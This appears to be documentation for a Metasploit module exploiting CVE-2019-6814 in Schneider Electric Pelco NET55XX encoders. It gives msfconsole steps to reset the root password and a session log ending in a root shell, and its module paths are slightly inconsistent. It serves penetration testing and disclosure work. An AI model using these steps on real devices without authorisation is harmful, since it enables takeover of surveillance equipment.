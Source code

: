 ## Vulnerable Application

Schneider Eletric Pelco NET55XX Encoder (CVE 2019-6814)

Adding Schneider Electric Pelco NET55XX module affecting NET55XX versions (NET5501, NET5501-I, NET5501-XT, NET5504, NET5500,NET5516,NET550).
 This module exploits an inadequate access control vulnerability creating a malicious json request to`the webUI encoder, thus allowing the SSH service to be enabled and changing the root password.

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use  use exploit/linux/http/schneider_eletric_net55xx_encoder`
- [ ] `set RHOSTS [rhosts]`
- [ ] `set RPORT [rport]`
- [ ] `set NEW_PASSWORD [new password]`
- [ ] `exploit`
- [ ] Verify you get a root shell

## Options

This module can be as simple as setting the RHOST and NEW_PASSWORD option, and you're ready to go.

**NEW_PASSWORD**  

You should  set a new ssh password to the vulnerable device.


## Scenarios

**Schneider Electric Pelco Encoder NET5501-XT**

msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > set RHOSTS 192.168.34.2
RHOSTS  => 192.168.34.2
msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > set RPORT 80
RPORT  => 80
msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > set NEW_PASSWORD msfrapid7
NEW_PASSWORD => msfrapid7
msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > run

[] 192.168.34.2:22 - Attempt to start a SSH connection...
[] 192.168.34.2:80 - Attempt to change the root password...
[+] 192.168.34.2:80 - Successfully changed the root password...
[+] 192.168.34.2:22 - Session established
[] Found shell.
[] Command shell session 1 opened (192.168.34.3:37033 -> 192.168.34.2:22) at 2019-07-03 10:57:07 -0400

uname -a;id
Linux NET5501-XT-K61200103 2.6.37 #1 PREEMPT Fri Aug 8 04:33:08 KST 2014 armv7l unknown
uid=0(root) gid=0(root) groups=0(root)